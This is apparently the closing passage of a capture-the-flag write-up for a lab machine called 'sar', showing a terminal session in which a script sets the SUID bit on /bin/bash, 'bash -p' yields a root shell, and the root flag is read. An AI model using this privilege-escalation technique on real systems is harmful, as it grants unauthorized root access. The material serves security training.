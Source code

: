 ```bash
www-data@sar:/var/www/html$ cat write.sh
#!/bin/sh
chmod u+s /bin/bash
touch /tmp/gateway

www-data@sar:/var/www/html$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bas

www-data@sar:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash


www-data@sar:/tmp$ bash -p
bash-4.4#
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# ls -la
total 40
drwx------  5 root root 4096 Mar  5 04:28 .
drwxr-xr-x 24 root root 4096 Oct 20  2019 ..
-rw-------  1 root root  501 Oct 21  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug  6  2019 .cache
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root    6 Mar  5 05:31 .vboxclient-display-svga.pid
-rw-r--r--  1 root root   33 Oct 20  2019 root.txt
bash-4.4# cat root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
bash-4.4#
```

Hope it helps!